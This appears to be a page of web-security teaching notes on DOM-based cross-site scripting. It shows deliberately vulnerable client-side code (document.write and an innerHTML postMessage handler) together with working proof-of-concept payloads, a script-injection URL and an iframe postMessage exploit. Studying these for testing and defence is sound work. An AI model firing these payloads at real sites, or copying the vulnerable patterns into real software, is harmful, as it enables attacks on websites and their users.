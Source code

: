 ## DOM-based XSS

The vulnerability exists in client-side code rather than server-side code.

```html
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>
```

```sh
# Get request 
https://insecure-website.com/index?search="><script>alert(document.domain)</script>
```

**Methodology**

1. Look for any script that has a sinks
2. See if you can control the sink
3. Exploit it

{{< hint style=tips >}}
**Tips**:

1.  Here there are some sources and sinks

    https://github.com/wisec/domxsswiki/wiki

    https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
2. DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks.
{{< /hint >}}

### DOM-based web message

```html
<!-- Vulnerable website -->
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('test').innerHTML = e.data;
    })
</script>
```

Exploit

```html
<iframe src=https://vuln.website/ onload='this.contentWindow.postMessage("<img src=1 onerror=print()>","*")'>
```

